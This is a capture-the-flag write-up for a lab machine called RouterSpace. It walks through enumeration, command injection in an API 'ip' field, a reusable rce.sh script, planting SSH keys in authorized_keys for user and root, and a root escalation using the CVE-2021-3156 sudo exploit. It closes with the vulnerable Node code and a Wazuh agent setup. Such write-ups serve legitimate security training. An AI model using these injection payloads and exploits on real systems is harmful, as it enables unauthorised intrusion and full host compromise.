










# RouterSpace

## Enumeration

```bash
TARGET=10.129.227.47
```

```bash
$ sudo nmap -v -sC -sV $TARGET 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-29 21:25 EST
...
Discovered open port 80/tcp on 10.129.227.47
Discovered open port 22/tcp on 10.129.227.47
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-RouterSpace Packet Filtering V1
| ssh-hostkey: 
|   3072 f4:e4:c8:0a:a6:af:66:93:af:69:5a:a9:bc:75:f9:0c (RSA)
|   256 7f:05:cd:8c:42:7b:a9:4a:b2:e6:35:2c:c4:59:78:02 (ECDSA)
|_  256 2f:d7:a8:8b:be:2d:10:b0:c9:b4:29:52:a8:94:24:78 (ED25519)
80/tcp open  http
|_http-favicon: Unknown favicon MD5: 425DC951532D7BFD9F0A5ACA0A98ECAF
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-trane-info: Problem with XML parsing of /evox/about
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-80928
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 69
|     ETag: W/"45-m9K66D3kfyFrNmzXiTuVHVpeQPk"
|     Date: Sun, 30 Nov 2025 02:26:05 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: D RP r PJQ gQd }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-85002
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Sun, 30 Nov 2025 02:26:04 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-34232
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Sun, 30 Nov 2025 02:26:05 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-title: RouterSpace
...
```


```bash
$ curl -s $TARGET:80 | grep href | grep -i download
                <a  href="/RouterSpace.apk">Download</a>
                    <a class="boxed-btn4" href="/RouterSpace.apk">Download Now</a>
                    <a class="boxed-btn4" href="/RouterSpace.apk">Download Now</a>
```

```bash
$ wget http://$TARGET/RouterSpace.apk
--2025-11-29 18:45:28--  http://10.129.227.47/RouterSpace.apk
Connecting to 10.129.227.47:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 35855082 (34M) [application/vnd.android.package-archive]
Saving to: ‘RouterSpace.apk’

RouterSpace.apk                 100%[====================================================>]  34.19M  2.96MB/s    in 17s     

2025-11-29 18:45:45 (2.04 MB/s) - ‘RouterSpace.apk’ saved [35855082/35855082]
```

I managed to install the app on an Android emulator (Genymotion) using Android API version 8.1 - API 27. I tried version 9 and in the latest available at the moment (15.0 - API 35) and I didn't manage to make the app send the request using the Burp Proxy.




Drag and drop app at the emulator


Start Burp and config the emulator to use the gateway IP as a proxy on Burp listening port.











We can add the address on our host file.

```bash
$ grep $TARGET /etc/hosts
10.129.227.47	routerspace.htb
```

```bash
$ dig +short routerspace.htb
10.129.227.47
```

Send the request to Repeater and try it again now.



## RCE



```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'user-agent: RouterSpaceAgent' -H $'Content-Type: application/json' \
    --data-binary $'{\"ip\":\"0.0.0.0;id\"}' \
    $'http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess'
```

I created a bash script to take advantage of the RCE.

```bash
#!/bin/bash

curl -s -x http://127.0.0.1:8080 \
        -H 'user-agent: RouterSpaceAgent' \
        -H 'Content-Type: application/json' \
        -d '{"ip":"$('"$1"')"}' \
        http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess \
        | jq -r .
```

```bash
$ chmod +x rce.sh
```

```bash
$ ./rce.sh id
uid=1001(paul) gid=1001(paul) groups=1001(paul)
```

```bash
$ ./rce.sh 'pwd'
/opt/www/public/routerspace
```

```bash
$ ./rce.sh 'ls '
index.js node_modules package.json package-lock.json static
```

```bash
$ ./rce.sh 'ls -l /home/paul'
total 8 drwxr-xr-x 3 paul paul 4096 Feb 17 2022 snap -r--r----- 1 root paul 33 Nov 30 02:00 user.txt
```

```bash
$ ./rce.sh 'echo \"test\" >> /home/paul/test.txt'
$ ./rce.sh 'cat /home/paul/test.txt'
test
```

Generate a ssh key

```bash
$ ssh-keygen
```

```bash
$ cat ~/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILuSrHznjxpyq4zjlLLsJWgMvyvPOJLkesdvsX/3A4yT kali@nothing
```

```bash
$ ./rce.sh 'echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILuSrHznjxpyq4zjlLLsJWgMvyvPOJLkesdvsX/3A4yT kali@nothing\" >> /home/paul/.ssh/authorized_keys'
```

```bash
$ ./rce.sh 'cat /home/paul/.ssh/authorized_keys'
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILuSrHznjxpyq4zjlLLsJWgMvyvPOJLkesdvsX/3A4yT kali@nothing
```


```bash
$ ssh -i ~/.ssh/id_ed25519 paul@routerspace.htb
The authenticity of host 'routerspace.htb (10.129.227.47)' can't be established.
ED25519 key fingerprint is SHA256:iwHQgWKu/VDyjka2Y4j2V8P2Rk6K13HuNT4JTnITIDk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'routerspace.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

...

  System information as of Sun 30 Nov 2025 06:05:31 AM UTC

  System load:           0.0
  Usage of /:            71.2% of 3.49GB
  Memory usage:          18%
  Swap usage:            0%
  Processes:             213
  Users logged in:       0
  IPv4 address for eth0: 10.129.227.47
  IPv6 address for eth0: dead:beef::250:56ff:feb0:581d
...
80 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
...

paul@routerspace:~$ 
```

## Priv Escalation

Download the latest linpeas script.
(Linpeas - github)[https://github.com/peass-ng/PEASS-ng/releases]

Transfer it to the target machine

```bash
$ scp -i ~/.ssh/id_ed25519 linpeas.sh paul@routerspace.htb:~/
linpeas.sh                      100%  949KB   1.7MB/s   00:00
```

```bash
paul@routerspace:~$ ls -lha linpeas.sh
-rw-rw-r-- 1 paul paul 950K Nov 30 06:17 linpeas.sh
```

```bash
paul@routerspace:~$ bash linpeas.sh
...
 Starting LinPEAS. Caching Writable Folders...
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                               ╚═══════════════════╝
OS: Linux version 5.4.0-90-generic (buildd@lgw01-amd64-054) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021
User & Groups: uid=1001(paul) gid=1001(paul) groups=1001(paul)
Hostname: routerspace.htb
...
╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.8.31
...
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
...
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

...
```
### CVE-2021-3156

I have seen this one before - [CVE-2021-3156](https://github.com/rafamarrara/CTFs/tree/main/Labs/CVE-2021-3156)

```bash
paul@routerspace:~$ cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"
```

```bash
paul@routerspace:~$ sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

```bash
paul@routerspace:~$ sudoedit -s '1234567890123456789012\'
malloc(): invalid size (unsorted)
Aborted (core dumped)
```

```bash
$ wget https://github.com/worawit/CVE-2021-3156/raw/refs/heads/main/exploit_nss.py
--2025-11-29 22:44:22--  https://github.com/worawit/CVE-2021-3156/raw/refs/heads/main/exploit_nss.py
Resolving github.com (github.com)... 140.82.116.3
Connecting to github.com (github.com)|140.82.116.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py [following]
--2025-11-29 22:44:22--  https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/plain]
Saving to: ‘exploit_nss.py’

exploit_nss.py              100%[===========================================>]   7.99K  --.-KB/s    in 0s      

2025-11-29 22:44:22 (28.8 MB/s) - ‘exploit_nss.py’ saved [8179/8179]
```

```bash
$ scp -i ~/.ssh/id_ed25519 exploit_nss.py paul@routerspace.htb:~/
exploit_nss.py                      100% 8179   101.0KB/s   00:00
```

```bash
paul@routerspace:~$ python3 exploit_nss.py 

# id
uid=0(root) gid=0(root) groups=0(root),1001(paul)

# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILuSrHznjxpyq4zjlLLsJWgMvyvPOJLkesdvsX/3A4yT kali@nothing" >> /root/.ssh/authorized_keys

# cat .ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILuSrHznjxpyq4zjlLLsJWgMvyvPOJLkesdvsX/3A4yT kali@nothing
```

```bash
$ ssh -i ~/.ssh/id_ed25519 root@routerspace.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)
...

root@routerspace:~# id
uid=0(root) gid=0(root) groups=0(root)
```
## Extra

### WebApp - Code scanner

```bash
root@routerspace:~# cat /opt/www/public/routerspace/index.js | grep deviceAccess -B2 -A11

app.post(
  "/api/v4/monitoring/router/dev/check/deviceAccess",
  checkAgent,
  async function (req, res) {
    var options = {
      encoding: "utf8",
    };
    var ip = req.body["ip"];
    const exec = promisify(require('child_process').exec);
    exec("echo " + ip, options).then(({ stdout }) => res.json(stdout).send()).catch(res.json);
  }
);
```

I asked Copilot to check for vulnerabilities on this code. It listed a few, but the main one is here. I believe this would be easily detected with a code scanner.



### Firewall

```bash
root@routerspace:~# sudo iptables -L -v
...
Chain OUTPUT (policy DROP 10001 packets, 731K bytes)
...
```

```bash
# sudo iptables -P OUTPUT ACCEPT
```

```bash
# sudo iptables -L -v
...
Chain OUTPUT (policy ACCEPT 19 packets, 1547 bytes)
...
```

### Vulnerability Management

Install Wazuh Agent on the host

```bash
$ scp -i ~/.ssh/id_ed25519 wazuh-agent_4.14.1-1_amd64.deb root@routerspace.htb:~/
wazuh-agent_4.14.1-1_amd64.deb                      100%   13MB   9.4MB/s   00:01
```

I am running Wazuh on Docker on my host - tun0 IP to connect

```bash
root@routerspace:~# WAZUH_MANAGER='10.10.14.139' WAZUH_AGENT_NAME='RouterSpace' dpkg -i ./wazuh-agent_4.14.1-1_amd64.deb
Selecting previously unselected package wazuh-agent.
(Reading database ... 84389 files and directories currently installed.)
Preparing to unpack .../wazuh-agent_4.14.1-1_amd64.deb ...
Unpacking wazuh-agent (4.14.1-1) ...
Setting up wazuh-agent (4.14.1-1) ...
Processing triggers for systemd (245.4-4ubuntu3.11) ...
```

```bash
root@routerspace:~# sudo systemctl daemon-reload
root@routerspace:~# sudo systemctl enable wazuh-agent
Created symlink /etc/systemd/system/multi-user.target.wants/wazuh-agent.service → /lib/systemd/system/wazuh-agent.service.
root@routerspace:~# sudo systemctl start wazuh-agent
root@routerspace:~# systemctl status wazuh-agent
● wazuh-agent.service - Wazuh agent
     Loaded: loaded (/lib/systemd/system/wazuh-agent.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2025-11-30 08:04:07 UTC; 14s ago
    Process: 3850 ExecStart=/usr/bin/env /var/ossec/bin/wazuh-control start (code=exited, status=0/SUCCESS)
      Tasks: 31 (limit: 2245)
     Memory: 109.2M
     CGroup: /system.slice/wazuh-agent.service
             ├─3881 /var/ossec/bin/wazuh-execd
             ├─3889 /var/ossec/bin/wazuh-agentd
             ├─3904 /var/ossec/bin/wazuh-syscheckd
             ├─3914 /var/ossec/bin/wazuh-logcollector
